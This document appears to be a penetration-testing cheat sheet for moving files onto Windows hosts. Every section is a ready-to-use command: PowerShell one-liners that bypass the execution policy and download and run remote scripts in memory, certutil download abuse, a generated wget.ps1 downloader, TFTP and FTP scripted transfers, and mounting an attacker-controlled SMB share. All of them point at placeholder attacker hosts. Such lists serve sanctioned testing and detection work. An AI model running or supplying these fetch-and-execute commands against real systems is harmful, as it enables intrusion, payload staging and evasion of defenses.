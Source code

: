 ### Windows
* HTTP
``` powershell
# Does not save file on the system
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<ip>/<file_name>')"
# Saves file on the system
powershell.exe -nop -ep bypass -c "iwr -uri http://<ip>/<file_name> -outfile path/to/save/file_name"
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadFile('http://<ip>/<file_name>','path/to/save/file_name')"

certutil.exe -urlcache -split -f http://<ip>/file file_save
```

    * Wget.ps1
``` powershell
echo $storageDir = $pwd >> wget.ps1
$webclient = New-Object System.Net.WebClient >> wget.ps1
# Download file from
$url = "http://<ip>/file_name" >> wget.ps1
# Save file as
$file = "file_name"
echo $webclient.DownloadFile($url,$file) >>wget.ps1
# execute the script as follows
powershell.exe -nop -ep bypass -nol -noni -f wget.ps1
```

* TFTP (UDP)
``` powershell
tftp -i <ip> get file_name
```

* SMB
``` powershell
# cmd.exe
net use Z: \\<attacker_ip>\share_name
# To access the drive
Z:
# PowerShell
New-PSDrive -Name "notmalicious" -PSProvider "FileSystem" -Root "\\attacker_ip\share_name"
# To access the drive
notmalicious:
```

* FTP
``` powershell
ftp <ip>
ftp>binary
ftp>get file_name

# One-liner downloader
# in cmd.exe do not use quotes in an echo command
echo open <ip> >> download.txt
echo anonymous >> download.txt
echo anon >> download.txt
echo binary >> download.txt
get file_name >> download.txt
bye >> download.txt
ftp -s:download.txt
```
